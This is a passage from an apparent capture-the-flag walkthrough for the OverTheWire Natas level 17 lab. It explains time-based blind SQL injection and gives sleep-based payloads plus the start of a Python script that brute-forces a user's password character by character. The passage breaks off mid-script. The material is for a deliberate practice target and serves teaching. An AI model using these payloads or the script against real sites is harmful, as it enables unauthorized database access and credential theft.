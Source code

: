 But all the errors that are to be thrown due to the SQL injection payloads are commented out.

<figure><img src=".gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

So we can't perform error based or boolean based SQL Injection.

So let's opt out for Time Based injection. Let's try the following payload, since we know that there is going to be a user named `natas18` in the table ( from the patterns followed in previous  levels ):

```sql
natas18" AND sleep(5) #
```

You can see that the browser responded with no errors after 5 seconds.

<figure><img src=".gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Now, we have confirmed that there is user named `natas18`. Now we have to retrieve the password for  that particular user. To do that we are going to brute force with alphanumerice letters, trying to match the password string, like we did in the last level using regexp, but this time we are going to make use of the SQL operator LIKE.

Let's try the following payload:

```sql
natas18" AND BINARY password LIKE "a%" AND SLEEP(5) #
```

It responded immediately, which means the password doesn't start with the letter a. Let's find the first character by using a simple python script, in which we are going set the value of SLEEP to be 1 and we will filter the responses based on the response time, i.e., if the response time is greater than 1, then that is the first character of the password.

{% code lineNumbers="true" %}
```python
import requests
from requests.auth import HTTPBasicAuth
from string import *
from time import *

characters = ascii_letters + digits

password = ""

session = requests.Session()

for character in characters:
    start_time = time()

    response = session.post(
        "http://natas17.natas.labs.overthewire.org/index.php",
```